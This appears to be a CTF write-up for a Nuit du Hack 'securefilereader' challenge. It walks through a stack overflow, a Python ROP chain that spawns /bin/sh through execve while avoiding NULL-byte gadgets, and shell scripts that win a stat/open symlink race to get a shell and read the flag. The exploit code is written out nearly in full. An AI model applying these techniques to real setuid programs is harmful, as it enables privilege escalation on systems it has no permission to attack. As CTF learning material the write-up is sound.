Hi,

I'm member of Pwnium tunisian CTF team. We were ranked #31 in this CTF ! 
Nice rank for a team of 2 members right ?

I hope we will do better next CTF ;)

The binary file takes a filename as argument and checks if the file size is less than 4096 then dumps its content to a buffer otherwise the program prints an error message.

Using GDB let's try to let the program accept a big filesize. To do this I changed the value returned by the check_size function to 1.

```bash
(python -c 'print "A"*4200') > /tmp/big
gdb pwn
gdb-peda$ b *0x08048F1A
gdb-peda$ r /tmp/big
gdb-peda$ set $eax=1
gdb-peda$ c
Stopped reason: SIGSEGV
0x41414141 in ?? ()
gdb-peda$ i r eip
eip 0x41414141 0x41414141
```

Great we have a segmentation fault. 4128 bytes is enough to overflow the return address.

The stack is not executable.

```bash
gdb-peda$ vmmap stack
Start      End        Perm Name
0xfffdd000 0xffffe000 rw-p [stack]
```

  
The system and execve does not exist in the binary so we can't do a big thing with Ret2libc.

```bash
readelf -s pwn | grep system
   702: 080d76e0    36 OBJECT  LOCAL  DEFAULT   10 system_dirs
   703: 080d76cc    16 OBJECT  LOCAL  DEFAULT   10 system_dirs_len
readelf -s pwn | grep exec
   890: 080bc800  2311 FUNC    LOCAL  DEFAULT    6 execute_cfa_program
   894: 080bd940  1884 FUNC    LOCAL  DEFAULT    6 execute_stack_op
  1186: 0809e580    88 FUNC    GLOBAL DEFAULT    6 _dl_make_stack_executable
  2209: 080ee9f4     4 OBJECT  GLOBAL DEFAULT   24 _dl_make_stack_executable
```

_dl_make_stack_executable is an interesting function and can be used to mark the stack as executable but I will do the job simpler.

Time for ROP ;)

The binary is statically linked with libc so there is a big probability to hit with a ROP chain to call execv syscall. I used ROPgadget to generate a rop chain. By testing it I got SIGSEGV at 0x00000000 and this because the gadgets contain NULL byte.

xor eax, eax; ret gadgets are located in offssets having NULL bytes. For this reason I had to manually resolve this issue. To go further I replaced xor eax eax; ret gadget with the following 2 gadgets mov eax, 0xffffffff; ret; inc eax; ret this will overflow the EAX register and the value will be 0.

  
The final ropchain I made was the following:


```python
from struct import pack

# Padding goes here
p = "A"*4124

p += pack('<I', 0x0807270a) # pop edx ; ret
p += pack('<I', 0x080ee060) # @ .data
p += pack('<I', 0x080beb26) # pop eax ; ret
p += '/bin'
p += pack('<I', 0x0809dead) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0807270a) # pop edx ; ret
p += pack('<I', 0x080ee064) # @ .data + 4
p += pack('<I', 0x080beb26) # pop eax ; ret
p += '//sh'
p += pack('<I', 0x0809dead) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0807270a) # pop edx ; ret
p += pack('<I', 0x080ee068) # @ .data + 8
#p += pack('<I', 0x08054700) # xor eax, eax ; ret  -> Issue here

p += pack('<I', 0x0804fc64)
p += pack('<I', 0x0807f15f)

p += pack('<I', 0x0809dead) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481d1) # pop ebx ; ret
p += pack('<I', 0x080ee060) # @ .data
p += pack('<I', 0x08072731) # pop ecx ; pop ebx ; ret
p += pack('<I', 0x080ee068) # @ .data + 8
p += pack('<I', 0x080ee060) # padding without overwrite ebx
p += pack('<I', 0x0807270a) # pop edx ; ret
p += pack('<I', 0x080ee068) # @ .data + 8
#p += pack('<I', 0x08054700) # xor eax, eax ; ret -> Issue here

p += pack('<I', 0x0804fc64)
p += pack('<I', 0x0807f15f)

p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x08049501) # int 0x80
p += pack('<I', 0xdeadbeef) # deadbeef

f = open('/tmp/payload','wb')
f.write(p)
f.close()
```

Now how to let the program accept the created payload ? The program uses the stat() function to read the file size. This let me think in Race Condition. The idea is to provide a symlink to a small file at the begining and then after the program executes the stat() fucntion and before executing the open() function I point the symlink to the payload (big file). To do this I used the following 2 scripts:

  
race1.sh file

```bash
#!/bin/sh
for i in `seq 10000`
do
cp /tmp/small /tmp/flag
rm /tmp/flag
ln -s /tmp/payload /tmp/flag
rm /tmp/a
done
```

race2.sh file

```bash
#!/bin/sh
for i in `seq 10000`
do
/home/chall/pwn /tmp/flag
done
```

Copy all the necessary files to the server using SCP.

```bash
scp  -P 55552 /tmp/payload chall@securefilereader.quals.nuitduhack.com:/tmp
scp  -P 55552 /tmp/race1.sh chall@securefilereader.quals.nuitduhack.com:/tmp
scp  -P 55552 /tmp/race2.sh chall@securefilereader.quals.nuitduhack.com:/tmp
scp  -P 55552 /tmp/small chall@securefilereader.quals.nuitduhack.com:/tmp

```

Put all stuffs togther

```
cd /tmp
(sh race1.sh &) && sh race2.sh
```


And after few seconds you get a shell for you and your family for free :D

  

```bash
$ id
uid=1001(chall) gid=1001(chall) egid=1000(chall_pwned) groups=1000(chall_pwned),1001(chall)
$ cat /home/chall/flag
rUN!RuN$RUn!Y0U$W1N_TH3_R4c3
$
```

That's all !
